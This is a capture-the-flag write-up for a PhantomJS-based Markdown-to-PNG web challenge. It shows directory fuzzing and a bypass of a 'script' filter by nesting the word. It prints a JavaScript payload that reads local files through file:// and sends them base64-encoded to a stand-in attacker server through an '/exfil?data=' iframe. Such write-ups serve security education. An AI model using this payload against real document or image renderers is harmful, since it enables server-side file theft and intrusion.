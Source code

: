 **The credits for creating this challenge go to: [0xPwny](https://twitter.com/0xpwny)**

# Light recon:
Looking at the response headers `Server: Apache/2.4.18 (Ubuntu)`,  and the source code (which contains a `mstafa.php`) we will assume that we're dealing with PHP web application.

After doing a some light fuzzing, nothing interesting shows up except `flag.php`:  

```sh
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u https://thnbdarija-xxconverters.chals.io/FUZZ -ac -c -v -e .php
[...Snip...]
[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | https://thnbdarija-xxconverters.chals.io/flag.php
    * FUZZ: flag.php
```

Browsing to it reveals nothing (so we must read it using LFI/RCE/SSTI/XXE ...)

# Markdown to PNG? : 
The form is rather simple, you submit something and it gets written to an image file which is sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163899463-9e99e247-a015-4c20-90c3-3da55acaa11d.png)
![image](https://user-images.githubusercontent.com/92731777/163899634-50fd0257-da8a-4b51-8e6c-8e1ad257950b.png)

Our request/response combo looks like this:

![image](https://user-images.githubusercontent.com/92731777/163899581-1a914fe1-6b05-4663-b6ab-0e3a6d654d7e.png)

Filenames are random, the only possible attack vector is LFI/Command injection (if for example a router takes our input (filename) and looks for it in another directory besides `pics/`/ concatenates it with a command) but i won't go through it for now and i'll assume that the files are processed THEN written inside `pics/` directory.

This kind of converters have been generally vulnerable to the so called "server side" XSS (e.g dynamic pdf generators) where you can basically inject some html/js code that fetches local files, do SSRF etc...

Let's test that out:

![image](https://user-images.githubusercontent.com/92731777/163900258-ac67689b-113f-4c09-aeb5-06550de40919.png)


It wasn't reflected as text this time but as html instead, we got a potential XSS. Let's see if we can run Javascript code:

![image](https://user-images.githubusercontent.com/92731777/163900525-70325620-ab2f-4e62-ab97-f59d0396f4dd.png)


Yes we can, did you noticed that "script" has been stripped out? [spoiler: there's a WAF in action ;) ]

Running Javascript code like this is cumbersome (e.g you have to escape quotes every now and then when writing complex code). So, let's see if we can include remote script:

![image](https://user-images.githubusercontent.com/92731777/163900570-a6771503-178b-48da-b7f0-5459cd3cfcaa.png)

As mentioned, "script" has been stripped by the server, a common bypass for this is nesting one inside another like `scrscriptipt`, which results in the "outer" script to be concatenated.

Aaaaand we got a request: 

![image](https://user-images.githubusercontent.com/92731777/163901661-90286b32-c248-414f-84be-77bf76ef3e57.png)

# Time to stop joking about XSS:
Looking at the `User-Agent` header we can see `PhantomJS/2.1.1` which is a headless browser, after googling for any known vulnerability/PoC we will come across this one: https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/


TL;DR: We make the server load our remote script, which reads local files using `file://` scheme, and sends the base64 encoded file back to us.
	
`innocent.js` content:
```js
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://<your_webserver>/exfil?data='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///etc/hosts"); // file to read
oReq.send();
```

Sping up your webserver to host the file and make the target server include it.

![image](https://user-images.githubusercontent.com/92731777/163900753-305c7a72-d703-4903-81e4-ad9d11ff1fc8.png)

aaand we got a hit with the file being sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163901852-c38fb581-ca2b-476f-a594-7837ba2949ee.png)

`/etc/hosts` file content: 

![image](https://user-images.githubusercontent.com/92731777/163900719-5ed911a2-7932-42a3-ab44-547b054fec59.png)

Local file read confirmed.
Remember that `/flag.php` file? by default apache hosts files under `/var/www/html/`, let's check if it's there

Same drill, edit the file to read and resend the XSS payload, after getting a hit on your local webserver base64 decode the exfil parameter's content:

![image](https://user-images.githubusercontent.com/92731777/163901826-ae56c7a7-0f96-4650-8bbc-40252d86e1cb.png)

Flag: `thnb{3aaaaw3d_D3rd4k_aAasi_xsser}`



